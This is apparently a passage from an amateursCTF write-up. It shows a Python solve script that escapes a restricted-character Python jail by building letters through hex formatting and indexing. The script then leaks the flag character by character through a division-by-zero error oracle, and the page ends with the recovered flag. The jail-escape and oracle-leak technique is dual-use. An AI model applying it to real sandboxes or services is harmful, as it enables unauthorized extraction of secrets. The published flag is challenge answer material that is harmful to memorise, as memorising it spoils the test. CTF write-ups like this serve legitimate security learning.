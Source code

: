 ```python
send_code("z=g[ffff]")                  # z = 'l'
send_code("y=g[fff]")                   # y = 'i'
send_code("x=g[fffff]")                 # x = 't'
send_code("w='%x'%ffffffffffffff")      # w = 'e'

# define alphabet dictionary
alphabet = {
    'a': "'a'", 'b': "'b'", 'c': "'c'", 'd': "'d'", 'e': "w", 'f': "'f'", 'g': "'g'", 'h': "'h'", 'i': "y", 'j': "'j'", 'k': "'k'", 'l': "z", 'm': "'m'", 'n': "'n'", 'o': "'o'", 'p': "'p'", 'q': "'q'", 'r': "'r'", 's': "'s'", 't': "x", 'u': "'u'", 'v': "'v'", 'w': "'w'", 'x': "'x'", 'y': "'y'", 'z': "'z'", 'A': "'A'", 'B': "'B'", 'C': "'C'", 'D': "'D'", 'E': "'E'", 'F': "'F'", 'G': "'G'", 'H': "'H'", 'I': "'I'", 'J': "'J'", 'K': "'K'", 'L': "'L'", 'M': "'M'", 'N': "'N'", 'O': "'O'", 'P': "'P'", 'Q': "'Q'", 'R': "'R'", 'S': "'S'", 'T': "'T'", 'U': "'U'", 'V': "'V'", 'W': "'W'", 'X': "'X'", 'Y': "'Y'", 'Z': "'Z'", '_': "'_'"
}


while '}' not in flag:
    current_index = len(flag)
    for letter in alphabet:
        # define payload
        index = "ffffffffff+"*(current_index//10)+"f"*(current_index%10)
        if index[-1] == "+":
            index = index[:-1]

        payload = f"p=_[{index}]=={alphabet[letter]}"
        #print(payload)
        send_code(payload)

        # check if division by zero error
        out = send_code("f/p")

        if 'zzzzzzzzzzzzz' not in out:
            flag += letter
            print(flag)
            break

p.close()
```

**Flag:** `amateursCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}`
